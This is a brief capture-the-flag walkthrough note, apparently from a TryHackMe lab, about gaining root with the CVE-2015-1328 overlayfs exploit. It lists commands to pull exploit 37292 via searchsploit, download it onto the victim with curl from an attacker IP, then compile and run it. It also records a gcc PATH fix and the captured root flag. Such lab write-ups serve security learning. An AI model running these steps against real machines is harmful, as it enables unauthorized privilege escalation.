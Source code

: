 ## CVE-2015-1328 

* Download the file using `searchsploit -m 37292`
* on victim - `curl 10.18.79.167:8000/37292.c -o exploit.c`
* `gcc exploit.c -o exploit && ./exploit`
* run into this error  `gcc: error trying to exec 'cc1': execvp: No such file or directory`
* Fixed by entering `export PATH` and runing again
* root.txt: `THM{g00d_j0b_0day_is_Pleased}`


